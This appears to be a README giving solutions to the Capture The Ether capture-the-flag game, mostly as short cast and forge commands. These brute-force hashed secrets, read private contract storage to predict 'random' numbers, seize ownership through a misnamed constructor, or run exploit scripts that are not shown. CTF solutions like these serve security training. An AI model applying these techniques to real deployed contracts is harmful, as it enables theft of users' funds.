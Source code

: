 # Capture The Ether

NOTE: [Capture The Ether](https://capturetheether.com/) was deployed in the Ropsten network, but the network is currently deprecated.

**Challenges**
- [Warmup](#warmup)
  - [Deploy a contract](#deploy-a-contract)
  - [Call me](#call-me)
  - [Choose a nickname](#choose-a-nickname)
- [Lotteries](#lotteries)
  - [Guess the number](#guess-the-number)
  - [Guess the secret number](#guess-the-secret-number)
  - [Guess the random number](#guess-the-random-number)
  - [Guess the new number](#guess-the-new-number)
  - [Guess the block hash](#guess-the-block-hash)
- [Math](#math)
  - [Token sale](#token-sale)
  - [Token whale](#token-whale)
  - [Retirement fund](#retirement-fund)
  - [Mapping](#mapping)
- [Miscellaneous](#miscellaneous)
  - [Assume ownership](#assume-ownership)
  - [Token bank](#token-bank)

## Warmup

### Deploy a contract
Just send a transaction via Metamask.

### Call me
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "callme()"
```

### Choose a nickname
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "setNickname(bytes32)" $(cast --to-bytes32 1)
```

## Lotteries

### Guess the number
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 42 --value 1ether
```

### Guess the secret number
```py
import sha3

for i in range(1 << 8):
    k = sha3.keccak_256()
    k.update(bytes([i]))
    if k.hexdigest() == "db81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365":
        print(i)
        break
```
Result: `170`

```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 170 --value 1ether
```

### Guess the random number
```
$ cast storage $INSTANCE_ADDRESS 0
0x0000000000000000000000000000000000000000000000000000000000000066
```

```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 0x66 --value 1ether
```

### Guess the new number
```
forge script src/CaptureTheEther/GuessTheNewNumber/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Guess the block hash
```
forge test --match-path src/CaptureTheEther/PredictTheBlockHash/Exploit.t.sol
```

## Math

### Token sale
```
forge script src/CaptureTheEther/TokenSale/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Token whale
```
forge script src/CaptureTheEther/TokenWhale/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Retirement fund
```
forge script src/CaptureTheEther/RetirementFund/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Mapping
```
forge script src/CaptureTheEther/Mapping/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

## Miscellaneous

### Assume ownership
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "AssumeOwmershipChallenge()" 
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "authenticate()"
```

### Token bank
```
forge script src/CaptureTheEther/TokenBank/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```
